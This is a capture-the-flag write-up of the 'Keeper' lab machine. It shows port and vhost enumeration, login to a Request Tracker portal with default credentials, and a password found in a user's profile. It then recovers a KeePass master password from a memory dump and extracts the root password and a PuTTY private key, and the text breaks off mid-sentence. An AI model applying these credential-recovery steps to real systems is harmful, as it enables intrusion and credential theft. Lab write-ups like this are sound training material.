## Network Enumeration:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=8/21%OT=22%CT=%CU=35455%PV=Y%DS=2%DC=T%G=N%TM=64E31990%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

* * *

## SSH:

As usual we can't do much about ssh without having a working set of credentials. Bruteforce is not a contepted way in because willö create disruption to the service and a enormous traffic in and out the network.

We can come back as soon we find some SSH keys or a set of valid creds.

* * *

## HTTP:

Surfing manually to the page we can see that website is using tickets.keeper.htb  as FQDN:



Adding the right FQDN to our host file and surfing the website again we are presented in front of a ticketing system:



before doing anything on the portal I will try to check if there are any other VHOST running on the server:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://keeper.htb/ -H "Host:FUZZ.keeper.htb" -fl 6

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://keeper.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.keeper.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 6
________________________________________________

[Status: 200, Size: 4236, Words: 407, Lines: 154, Duration: 62ms]
    * FUZZ: tickets

:: Progress: [19966/19966] :: Job [1/1] :: 904 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Apparently, no and what about subdomains?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://tickets.keeper.htb/ -H "Host:FUZZ.tickets.keeper.htb" -fl 6

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://tickets.keeper.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.tickets.keeper.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 6
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 727 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

Ok cool! Let's do same with potentially hidden web directories but nothing interesting came out here:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://tickets.keeper.htb/"

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_tickets.keeper.htb/__23-08-21_10-24-14.txt

Target: http://tickets.keeper.htb/

[10:24:14] Starting: 
[10:25:38] 200 -    4KB - /index.html                                       
[10:25:38] 302 -    0B  - /Install  ->  http://tickets.keeper.htb/rt/       
[10:25:42] 403 -    0B  - /l                                                
[10:25:47] 200 -    2KB - /m                                                
                                                                             
Task Completed
```

From a googling seems like no CVE are available for this product which leads me only to think if that login page may be vulnerable to some kind of SQL Injection? Asnwer: No!

So gogling again around found out this: https://github.com/bestpractical/rt

And more specifically this part where are defined the default creds:



And testing those we are in!



Checking here we have a ticket:





We can probaly see the local username:



Ok here was easier than I thought, the password was saved in the user description field:



Unfortunately the password is not working for SSH:



But I was using the wrong username, it's 

```
lnorgaard
```

and not

```
inorgaard
```

Which indeed it allows me to grab the first flag:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ ll
total 85380
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25 20:00 ./
drwxr-xr-x 3 root      root          4096 May 24 16:09 ../
lrwxrwxrwx 1 root      root             9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24 16:09 .cache/
-rw------- 1 lnorgaard lnorgaard      807 May 23 14:43 .profile
-rw-r--r-- 1 root      root      87391651 Aug 21 13:18 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24 10:25 .ssh/
-rw-r----- 1 root      lnorgaard       33 Aug 21 12:12 user.txt
-rw-r--r-- 1 root      root            39 Jul 20 19:03 .vimrc
lnorgaard@keeper:~$ cat user.txt
```

* * *

## PE to Root:

Now we know from the ticket that Lise saved some dump from Keepas in her userhome so I'm expecting this to be a way in to root. But let's check some other permissions:

```
lnorgaard@keeper:~$ sudo -l
[sudo] password for lnorgaard: 
Sorry, user lnorgaard may not run sudo on keeper.
lnorgaard@keeper:~$ cd ..
lnorgaard@keeper:/home$ ll
total 12
drwxr-xr-x  3 root      root      4096 May 24 16:09 ./
drwxr-xr-x 18 root      root      4096 Jul 27 13:52 ../
drwxr-xr-x  4 lnorgaard lnorgaard 4096 Jul 25 20:00 lnorgaard/
```

So she can't do anything other with sudo permissions and no other users are available except root! Let's use Filezilla to download that strange zip file:



Ok seems like the zip contains a Keepas DB and a minidump:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ll
total 85352
-rw-r--r--  1 aleksandar aleksandar 87391651 Aug 21 13:27 RT30000.zip
drwxr-xr-x 74 root       root           4096 Aug 21 09:57 Tools
drwxr-xr-x  3 root       root           4096 Aug 21 10:24 reports

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# file RT30000.zip                                                                                                                                                                                                                                         
RT30000.zip: Zip archive data, at least v2.0 to extract, compression method=deflate

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# unzip RT30000.zip                                                                                                                                                                                                                                        
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```

Opening the DB it's password encoded:



Trying to crack the password with keepas2john:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# keepass2john passcodes.kdbx > passcodes.hash                                                                                                                                                                                                             

┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# cat passcodes.hash                          
passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
```

Cracking may take a while so in the meantime I will copy the minidump locally to my windows and analyze it with WinDBG. But seems like noting is out of order here so I google about Keepas and minidump and found out this one:

```
https://github.com/vdohney/keepass-password-dumper
```

But googling around seems like there is a Python version working out of the box:

```
https://github.com/CMEPW/keepass-dump-masterkey
```

Running the windowd version we get partliall of the code:

```
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ø, 
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ø, 
16.:    d, 
17.:    e, 
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

and running the python one:

```
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

And combining the 2 we can get the result:

```
●,dgrød med fløde
```

And again googling the danish word we can guess it:



Leaving out for these 2:

```
rødgrød med fløde
Rødgrød med fløde
```

And using the first one let us open the DB:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# kpcli --kdb=passcodes.kdbx 
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> help
  attach -- Manage attachments: attach <path to entry|entry number>
autosave -- Autosave functionality
      cd -- Change directory (path to a group)
      cl -- Change directory and list entries (cd+ls)
   clone -- Clone an entry: clone <path to entry> <path to new entry>
   close -- Close the currently opened database
     cls -- Clear screen ("clear" command also works)
    copy -- Copy an entry: copy <path to entry> <path to new entry>
    edit -- Edit an entry: edit <path to entry|entry number>
  export -- Export entries to a new KeePass DB (export <file.kdb> [<file.key>])
    find -- Finds entries by Title
     get -- Get a value: get <entry path|entry number> <field>
    help -- Print helpful information
 history -- Prints the command history
   icons -- Change group or entry icons in the database
  import -- Import a password database (import <file> <path> [<file.key>])
      ls -- Lists items in the pwd or specified paths ("dir" also works)
   mkdir -- Create a new group (mkdir <group_name>)
      mv -- Move an item: mv <path to a group|or entries> <path to group>
     new -- Create a new entry: new <optional path&|title>
    open -- Open a KeePass database file (open <file.kdb> [<file.key>])
     otp -- Show one-time password: otp <entry path|number>
  passwd -- Change the opened database's password
   purge -- Purges entries in a given group based on criteria.
    pwck -- Check password quality: pwck <entry|group>
     pwd -- Print the current working directory
    quit -- Quit this program (EOF and exit also work)
  rename -- Rename a group: rename <path to group>
      rm -- Remove an entry: rm <path to entry|entry number>
   rmdir -- Delete a group (rmdir <group_name>)
    save -- Save the database to disk
  saveas -- Save to a specific filename (saveas <file.kdb> [<file.key>])
     set -- Set a value: get <entry path|entry number> <field> <val>
    show -- Show an entry: show [-f] [-a] <entry path|entry number>
   stats -- Prints statistics about the open KeePass file
     ver -- Print the version of this program
    vers -- Same as "ver -v"
      xo -- Copy one-time password to clipboard: xo <entry path|number>
      xp -- Copy password to clipboard: xp <entry path|number>
     xpx -- Copy password to clipboard, with auto-clear: xpx <entry path|number>
      xu -- Copy username to clipboard: xu <entry path|number>
      xw -- Copy URL (www) to clipboard: xw <entry path|number>
      xx -- Clear the clipboard: xx

Type "help <command>" for more detailed help on a command.
kpcli:/> ls
=== Groups ===
passcodes/
kpcli:/> ls passcodes/
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
kpcli:/>
```

Seems like only the KPCli works and not the gui version:

```
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       
kpcli:/passcodes/Network>
```

And apparently we can get it's root password:

```
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       
kpcli:/passcodes/Network> get  
Ticketing\ System                keeper.htb\ (Ticketing\ Server)  
kpcli:/passcodes/Network> get Ticketing\ System 
Too few args!  2 minimum.
kpcli:/passcodes/Network> get Ticketing\ System  
ID        Notes     Pass      Title     URL       Uname     comment   id        password  title     url       username  
kpcli:/passcodes/Network> get Ticketing\ System username 
lnorgaard
kpcli:/passcodes/Network> get Ticketing\ System password 
Welcome2023!
kpcli:/passcodes/Network> 
kpcli:/passcodes/Network> 
kpcli:/passcodes/Network> ls                            
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       
kpcli:/passcodes/Network> get keeper.htb\ (Ticketing\ Server) username 
root
kpcli:/passcodes/Network> get keeper.htb\ (Ticketing\ Server) password 
F4><3K0nd!
kpcli:/passcodes/Network>
```

The password is not working via SSH we have to be able to read those comments:

```
kpcli:/passcodes/Network> get keeper.htb\ (Ticketing\ Server) comment 
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

To make it work I exported the db to a new one:

```
kpcli:/passcodes/Network> export test.kdbx
Provide the master password: *************************
Retype to verify: *************************
Exported KeePass v2 format to test.kdbx
kpcli:/passcodes/Network>
```

And then opening it via KeepasXC:



And now that we have it:

